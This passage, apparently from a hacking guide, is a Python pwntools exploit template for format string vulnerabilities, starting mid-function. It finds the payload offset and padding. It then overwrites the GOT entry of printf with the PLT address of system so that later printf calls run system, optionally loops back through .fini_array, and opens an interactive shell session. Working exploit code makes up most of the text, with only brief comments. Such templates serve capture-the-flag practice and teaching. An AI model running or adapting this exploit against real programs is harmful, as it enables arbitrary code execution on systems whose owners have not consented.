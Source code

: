 ```python
payload = b" "*padlen + b"BBBB%" + bytes(str(offset), "utf-8") + b"$p"
recieved = send_payload(payload).strip()
print(recieved)
if b"42424242" in recieved:
log.info(f"Found offset ({offset}) and padlen ({padlen})")
return offset, padlen

else:
connect_binary()
payload = b" " + payload
recieved = send_payload(payload).strip()


# In order to exploit a format string you need to find a position where part of your payload
# is being reflected. Then, you will be able to put in the position arbitrary addresses
# and write arbitrary content in those addresses
# Therefore, the function get_formatstring_config will find the offset and padd needed to exploit the format string

offset, padlen = get_formatstring_config()


# In this template, the GOT of printf (the part of the GOT table that points to where the printf
# function resides) is going to be modified by the address of the system inside the PLT (the
# part of the code that will jump to the system function).
# Therefore, next time the printf function is executed, system will be executed instead with the same
# parameters passed to printf

# In some scenarios you will need to loop1 more time to the vulnerability
# In that cases you need to overwrite a pointer in the .fini_array for example
# Uncomment the commented code below to gain 1 rexecution extra

#P_FINI_ARRAY = ELF_LOADED.symbols["__init_array_end"] # .fini_array address
#INIT_LOOP_ADDR = 0x8048614 # Address to go back
SYSTEM_PLT = ELF_LOADED.plt["system"]
P_GOT = ELF_LOADED.got["printf"]

#log.info(f"Init loop address: {hex(INIT_LOOP_ADDR)}")
#log.info(f"fini.array address: {hex(P_FINI_ARRAY)}")
log.info(f"System PLT address: {hex(SYSTEM_PLT)}")
log.info(f"Printf GOT address: {hex(P_GOT)}")

connect_binary()
if GDB and not REMOTETTCP and not REMOTESSH:
# attach gdb and continue
# You can set breakpoints, for example "break *main"
gdb.attach(P.pid, "b *main") #Add more breaks separeted by "\n"
sleep(5)

format_string = FmtStr(execute_fmt=send_payload, offset=offset, padlen=padlen, numbwritten=NNUM_ALREADY_WRITTEN_BYTES)
#format_string.write(P_FINI_ARRAY, INIT_LOOP_ADDR)
format_string.write(P_GOT, SYSTEM_PLT)
format_string.execute_writes()

# Now that printf function is executing system you just need to find a place where you can
# control the parameters passed to printf to execute arbitrary code.

P.interactive()
```
{% hint style="success" %}